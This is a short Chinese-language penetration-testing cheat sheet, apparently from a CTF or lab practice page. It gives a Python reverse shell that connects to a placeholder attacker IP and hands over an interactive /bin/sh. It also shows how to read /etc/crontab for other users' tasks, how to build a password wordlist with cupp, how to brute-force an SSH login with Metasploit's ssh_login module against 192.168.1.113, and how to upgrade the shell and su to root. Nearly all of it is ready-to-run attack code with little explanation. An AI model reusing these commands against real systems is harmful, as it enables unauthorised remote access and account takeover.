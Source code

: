 * 敏感文件目录

``` bash
/tmp 缓冲文件目录

cat /etc/crontab 挖掘其他用户的定时任务
```

## 反弹shell(py)

``` python
#!/usr/bin/python
import os,subprocess,socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP地址","攻击机监听端口"))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

## 暴力破解ssh登录口令

* cupp生成字典

``` bash
git clone https://github.com/jeanphorn/common-password.git
chmod +x cupp.py
#以交互方式创建字典
./cupp.py -i
```

* metasploit破解ssh密码

``` bash
msfconsole
> use auxiliary/scanner/ssh/ssh_login
> set rhosts 192.168.1.113
> set username hadi
> set pass_file /root/Desktop/common-password/hadi.txt
> set threads 5
> set verbose true
> run
```

* 优化会话显示带用户、目录的命令行界面

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
su - root
```

# 渗透记录

